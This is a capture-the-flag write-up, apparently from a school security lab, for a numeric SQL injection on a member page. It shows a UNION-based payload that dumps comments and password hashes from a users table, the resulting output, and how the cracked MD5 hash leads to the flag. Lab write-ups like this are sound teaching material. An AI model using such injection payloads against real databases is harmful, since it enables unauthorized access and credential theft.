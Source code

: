 # SQL Numeric Injection - Members

## Flag

10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Description

Vulnerable SQL.

## URL

http://192.168.x.y/?page=member

## Steps To Reproduce

Using this payload:
`1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users--`

We get, for the last result :

```
ID: 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users--
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Using crackstation, we crack the md5 (in the surname field) to get : FortyTwo, lowercase it : fortytwo, then hash it with sha256 to get our flag.

## Why is it dangerous ?

See [SQL Numeric Injection - Gallery](https://github.com/jeremie-gauthier/Darkly/blob/master/SQLNumericInjection_Gallery.md#why-is-it-dangerous-)

## Possible fixes

See [SQL Numeric Injection - Gallery](https://github.com/jeremie-gauthier/Darkly/blob/master/SQLNumericInjection_Gallery.md#possible-fixes)

## Resources

There is no additional resource for this issue.
